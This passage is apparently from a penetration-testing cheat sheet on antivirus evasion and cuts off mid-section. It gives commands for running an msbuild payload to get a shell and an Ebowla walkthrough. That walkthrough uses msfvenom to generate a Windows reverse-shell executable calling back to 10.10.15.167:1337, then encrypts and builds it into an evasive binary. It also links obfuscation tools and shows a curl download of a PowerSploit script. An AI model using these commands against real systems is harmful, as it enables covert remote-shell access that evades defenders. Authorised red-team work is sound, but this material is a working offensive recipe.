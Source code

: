 Exec with `msbuild.exe` and get a shell:

```
PS > cmd /c C:\Windows\Microsoft.NET\framework\v4.0.30319\msbuild.exe payload.xml
```

* [github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)
* [www.youtube.com/watch?v=krC5j1Ab44I&t=3730s](https://www.youtube.com/watch?v=krC5j1Ab44I&t=3730s)




## Ebowla

```
$ git clone https://github.com/Genetic-Malware/Ebowla ~/tools/Ebowla && cd ~/tools/Ebowla
$ sudo apt install golang mingw-w64 wine -y
$ sudo python -m pip install configobj pyparsing pycrypto pyinstaller
$ sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.167 LPORT=1337 --platform win -f exe -a x64 -o rev.exe
$ vi genetic.config
...Edit output_type, payload_type, clean_output, [[ENV_VAR]]...
$ python ebowla.py rev.exe genetic.config && rm rev.exe
$ ./build_x64_go.sh output/go_symmetric_rev.exe.go ebowla-rev.exe [--hidden] && rm output/go_symmetric_rev.exe.go
[+] output/ebowla-rev.exe
```




## Invoke-Obfuscation

* [github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
* [www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide](https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide)




## Out-EncryptedScript.ps1

* [github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-EncryptedScript.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-EncryptedScript.ps1)
* [powersploit.readthedocs.io/en/latest/ScriptModification/Out-EncryptedScript/](https://powersploit.readthedocs.io/en/latest/ScriptModification/Out-EncryptedScript/)

Download:

```
$ curl -L https://github.com/PowerShellMafia/PowerSploit/raw/master/ScriptModification/Out-EncryptedScript.ps1 > outenc.ps1
```

Use:
